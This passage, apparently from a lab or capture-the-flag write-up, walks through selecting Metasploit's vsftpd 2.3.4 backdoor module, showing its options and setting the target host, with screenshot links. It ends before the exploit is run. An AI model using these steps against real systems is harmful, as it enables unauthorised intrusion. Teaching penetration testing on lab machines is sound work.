 Copy path:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

and type:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Metasploit](./Screenshots/lamemetasploit3.png)

then:

```
show options
```

![Metasploit](./Screenshots/lamemetasploit4.png)

We have to set up `RHOST`. To do this type:

```
set RHOST {target ip}
```

![Metasploit](./Screenshots/lamemetasploit5.png)
